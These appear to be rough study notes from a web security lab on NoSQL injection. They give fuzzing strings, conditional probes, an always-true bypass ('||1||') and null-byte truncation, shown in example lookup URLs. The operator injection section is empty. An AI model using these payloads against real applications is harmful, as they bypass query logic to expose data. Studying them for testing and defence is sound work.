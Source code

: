 # NOSQLi

# TYPES:
### Syntax Injection
### OPerator INjection


##NOSQL SYNTAX NJECTION
'"`{
;$Foo}
$Foo \xYZ  -------> if request is from URL 

for JSON --> '\"`{\r;$Foo}\n$Foo \\xYZ\u0000

the above strings can be used to test fot noslqi if detectable changes or eroor is caused

now that we have found the presence of Nosqli we test 
whci characters are processed we can try to inject all specula charcter like ' " etc to break nosqli syntax
STEp2 -->confirm conditional behavior
' && 0 && 'x and ' && 1 && 'x as    -----> we can use the followinf like methods to detect conditional behaviour
usage --> https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x

step3 try to override the suntac like we do in sqli which alway evaluated to be ture and gives us all the data
we can use 
'||1||'
or 
this.category == 'fizzy'||'1'=='1'


NB--->SUPPOSE SOMETIME WE WANT TO BREAK OUT OF SYNTX OR COMMENT THE REST OF THE PARTS THEM WE MAY USE NULL BYTES AFTER ' THAT WILL INGNORE THE REST OF THE PART
LIKE %00 CAN BE USED ----> https://insecure-website.com/product/lookup?category=fizzy'%00

###NOSQL OPERATOR INJECTION

